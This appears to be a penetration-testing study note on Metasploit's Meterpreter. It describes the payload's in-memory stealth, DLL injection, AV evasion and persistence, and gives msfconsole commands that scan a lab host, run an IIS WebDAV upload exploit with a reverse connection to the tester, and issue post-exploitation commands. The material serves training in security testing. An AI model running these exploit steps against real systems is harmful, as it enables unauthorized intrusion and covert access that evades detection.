 
With sessions and jobs, Metasploit provides efficient management tools for running and switching between multiple tasks and exploits during an assessment. This flexibility is invaluable for larger-scale penetration tests or complex engagements.



# Meterpreter in Metasploit

## Overview
The Meterpreter Payload is a specific type of multi-faceted, extensible Payload that uses DLL injection to ensure the connection to the victim host is stable and difficult to detect using simple checks and can be configured to be persistent across reboots or system changes. Furthermore, Meterpreter resides entirely in the memory of the remote host and leaves no traces on the hard drive, making it difficult to detect with conventional forensic techniques.

It is dubbed the swiss army knife of pentesting, and for a good reason. The purpose of Meterpreter is to specifically improve our post-exploitation procedures, offering us a hand-picked set of relevant tools for more straightforward enumeration of the target host from the inside. It can help us find various privilege escalation techniques, AV evasion techniques, further vulnerability research, provide persistent access, pivot, etc.

## Key Features
- **Stealthy**: Meterpreter resides entirely in memory and writes nothing to the disk. No new processes are created, as Meterpreter injects itself into a compromised process. Additionally, communications are encrypted using AES.
- **Powerful**: Uses a channelized communication system and allows spawning of host-OS shells inside the Meterpreter stage.
- **Extensible**: Features can be augmented at runtime and loaded over the network, allowing for constant updates and customizations.

## Using Meterpreter
To run Meterpreter, you need to select an appropriate payload and exploit, ensuring compatibility with the target system. Once executed, Meterpreter provides a shell with extended functionalities.

### Example of Running Meterpreter
```bash
msf6 > db_nmap -sV -p- -T5 -A 10.10.10.15
msf6 > use exploit/windows/iis/iis_webdav_upload_asp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOST 10.10.10.15
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set LHOST tun0
msf6 exploit(windows/iis/iis_webdav_upload_asp) > run
```

### Interacting with Meterpreter
Once a Meterpreter session is active:
```bash
meterpreter > help
meterpreter > getuid
meterpreter > ps
```
